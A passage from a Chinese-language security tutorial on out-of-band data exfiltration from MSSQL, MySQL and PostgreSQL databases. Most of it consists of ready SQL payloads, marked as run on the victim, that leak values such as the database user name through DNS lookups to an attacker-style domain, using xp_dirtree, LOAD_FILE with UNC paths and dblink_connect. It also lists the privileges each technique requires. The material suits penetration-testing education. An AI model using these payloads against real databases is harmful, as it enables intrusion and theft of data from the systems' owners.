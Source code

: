 ### 2.利用/渗出

**受害者**

```sql
DECLARE @data varchar(1024);
SELECT @data = (SELECT system_user);  
EXEC('master..xp_dirtree "\\'+@data+'.oob.dnsattacker.com\foo$"');
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630249_5b971de9e1b13.png!small)**

**限制条件：**数据库用户须为sysadmin权限。

类似地，创建DNS查询的其他方法包括：xp_fileexists，xp_subdirs，xp_getfiledetails，sp_add_jobstep

## 八、MYSQL

### **1. 检测**

**受害者**

```sql
SELECT LOAD_FILE(CONCAT('\\\\', 'oob.dnsattacker.com\\test.txt'));
```

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630280_5b971e0801570.png!small)](https://image.3001.net/images/20180911/1536630280_5b971e0801570.png)

### 2. 利用/渗出

**受害者**

```sql
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT HEX(CONCAT(user(),"\n"))), '.oob.dnsattacker.com\\test.txt'));
```

**限制条件：**数据库用户须具有Select，update和“文件”权限。

[![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630369_5b971e6170ead.png!small)](https://image.3001.net/images/20180911/1536630369_5b971e6170ead.png)

## 九、Postgresql

### **1. 检测**

**受害者**

```sql
CREATE EXTENSION dblink;SELECT dblink_connect('host=oob.dnsattacker.com user=postgres password=password dbname=dvdrental');
```

**![信息外带漏洞(OOB)利用技巧](https://image.3001.net/images/20180911/1536630396_5b971e7c06c88.png!small)**

**限制条件：**用户必须具有超级用户权限才能执行CREATE EXTENSION查询。
